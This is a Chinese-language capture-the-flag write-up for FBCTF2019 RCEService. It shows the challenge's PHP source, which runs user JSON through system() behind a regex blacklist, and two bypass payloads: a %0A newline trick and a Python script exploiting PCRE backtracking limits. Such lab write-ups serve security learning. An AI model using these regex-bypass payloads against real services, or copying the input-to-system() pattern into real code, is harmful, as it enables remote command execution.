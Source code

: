 # \[FBCTF2019]RCEService

## \[FBCTF2019]RCEService

## 考点

* `%0a`绕过preg\_match
* PRCE正则回溯
* 绝对路径绕过`putenv('PATH=/home/rceservice/jail');`

## wp

直接输`ls`会给出错误，显示提交的参数是`?cmd=ls`

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png>)

要求输入json，输入`{"cmd":"ls"}`

![](<../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png>)

源码是给出的，如下

```php
<?php
putenv('PATH=/home/rceservice/jail');
if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];
  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
?>
```

### 第一种方法

基本上能过滤的全过滤了，并且在第一行`putenv('PATH=/home/rceservice/jail');`处指定了默认执行命令的位置，即如果执行`ls`，那么就相当于执行`/home/rceservice/jail/ls`，这里可以使用`/bin/cat`，`/bin/ls`这种方式绕过

而preg\_match默认不匹配换行，可以使用`%0A`绕过，payload：`{%0A"cmd":"ls"%0A}`

`%0A`如果放在开头，不满足``[\x00-\x1FA-Z0-9!#-/;-@[-`|~\x7F]+``这个条件。

payload：`{%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}`

### 第二种方法

[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

脚本如下

```python
import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a"*(1000000) + '"}'

res = requests.post("http://26d07d48-6ef0-406d-94ad-b13c0c4908fa.node4.buuoj.cn:81/", data={"cmd":payload})
print(res.text)
```

## 小结

* preg\_match要能想到%0A绕过
